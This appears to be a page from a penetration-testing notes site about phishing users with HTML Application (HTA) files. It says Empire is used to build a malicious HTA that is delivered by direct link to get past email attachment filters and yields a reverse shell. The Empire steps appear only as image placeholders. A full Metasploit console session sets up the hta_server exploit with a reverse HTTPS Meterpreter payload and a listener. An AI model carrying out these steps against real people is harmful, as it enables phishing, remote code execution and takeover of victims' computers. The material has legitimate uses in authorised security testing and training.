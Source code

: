 # ⭕ HTA

{% embed url="http://blog.sevagas.com/?Hacking-around-HTA-files=" %}

An HTML Application (HTA) is a Microsoft Windows program whose source consists of HTML, Dynamic HTML, and one or more scripting languages supported by Internet Explorer, such as VBScript or JScript.

In this example we will be assuming that attachments are not allowed in our Emails, so we will need to send a user a Direct link where we will bypass the email attachment and directly download our Binary(HTA), in the following we will use Empire Framework to create our malicious binary. This attack can also be considered an attachment but here an HTA file is being downloaded and executed.

Empire is a post-exploitation framework that includes a pure Powershell2.0 Windows agent, and a pure Python 2.6/2.7 Linux/OS X agent. It is the merge of the previous PowerShell Empire and Python EmPyre projects. Empire implements the ability to run Powershell agents without the need of powershell.exe, rapidly deployable post-exploitation modules from keyloggers to evade network detection PowerShell premiered at BSides in 2015.

## <mark style="color:red;">Examples</mark>

We can create Macros, HTA files and OLE Objects for phishing (this example will contain a HTA phishing style and there will be links for reference) we can start Empire from our Linux box and use the following steps \[Remember this is the most basic attack so it will get detected].

`At the time of writing I was using Empire 2.5 there is a newer version 3.0, major updates but procedure is similar`

We execute Empire :&#x20;

![](<../../.gitbook/assets/image (79).png>)

We will need to setup a listener that will listen for our connection once executed on the victim

![](<../../.gitbook/assets/image (178).png>)

We proceed to execute

![](<../../.gitbook/assets/image (52).png>)

We will setup our listener and an OutFile to send to our victim

![](<../../.gitbook/assets/image (4).png>)

Execute again to create our payload, make sure to add the extension to it or Empire will create a file not functional for our attack.

![](<../../.gitbook/assets/image (29).png>)

Once here it's up to creativity on how to send this file I will continue with this just for DEMO purposes.

![](<../../.gitbook/assets/image (108).png>)

after execution, when get a reverse shell.

## <mark style="color:red;">Metasploit HTA Server</mark>

The Metasploit HTA Web Server exploit module hosts an HTA that when opened runs a payload via PowerShell.

To use, simply set the IP for the server, a custom URI, the payload you which to execute, and the IP of the listener:

```markup
root@kali:~# msfconsole -q
msf > use exploit/windows/misc/hta_server
msf exploit(windows/misc/hta_server) > set SRVHOST 192.168.216.5 
SRVHOST => 192.168.216.5
msf exploit(windows/misc/hta_server) > set URIPATH form
URIPATH => form
msf exploit(windows/misc/hta_server) > set PAYLOAD windows/meterpreter/reverse_https
PAYLOAD => windows/meterpreter/reverse_https
msf exploit(windows/misc/hta_server) > set LHOST 192.168.216.5 
LHOST => 192.168.216.5
msf exploit(windows/misc/hta_server) > exploit 
[*] Exploit running as background job 0.

[*] Started HTTPS reverse handler on https://192.168.216...Copy
```

## <mark style="color:red;">Other Tools</mark>

{% embed url="https://www.hackingarticles.in/windows-exploitation-mshta" %}
